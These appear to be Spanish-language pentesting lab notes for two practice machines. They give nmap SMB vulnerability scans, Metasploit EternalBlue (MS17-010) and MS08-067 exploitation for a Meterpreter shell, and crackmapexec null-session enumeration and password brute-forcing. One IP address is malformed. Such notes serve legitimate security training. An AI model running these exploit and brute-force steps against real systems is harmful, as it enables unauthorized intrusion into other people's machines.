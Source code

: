 # Maquina 3 (Enumeración SMB con Nmap, Metasploit, MS08-067 y Eternal Blue)
# Eternal blue, via smb

`Enumerar vulnerabilidades del samba.
nmap -p445 --script="smb-vuln-\*" 10.0.2.45

`Abrimos metasploit
msfconsole

`Buscamos el exploit de eternal blue o numero

search MS17-010 
search eternal
search MS08-067

`Checker de vulnerabilidad

use auxiliary/scanner/smb/smb_ms17_010

`Asignamos la maquina victima, de manera global para metaesploit 

options 
setg RHOSTS 10.0.2.45
run

`Comprobamos los bits del sistema operativo, utilizaremos psexec

use windows/smb/ms17_010_psexec
shelll meterpreter x86/windows (VERIFICIAR LA ARQUITECTURA DE LA MAQUINA VICTIMA)

`Otra opción
use exploit/windows/smb/ms08_067_netapi

# Maquina 4 (msfvenom aspx, crackmapexec)

nano users.txt

`Enumerar SMB con crackmapexec con sesion nula
crackmapexec smb 10.0.2.0.46 -u '' -p '' --shares

`Enumerar SMB con crackmapexec con usuarios
crackmapexec smb 10.0.2.0.46 -u users.txt -p '' --shares

`Verificar recursos del samba, con fuerza bruta con la lista de usuarios como usuarios y contraseña.
crackmapexec smb 10.0.2.0.46 -u users.txt -p users.txt --shares

STATUS_LOGON_FAILURE

`Enumeramos los recursos compartidos:
ADMIN$
C$
IPC$
LOGS
WEB
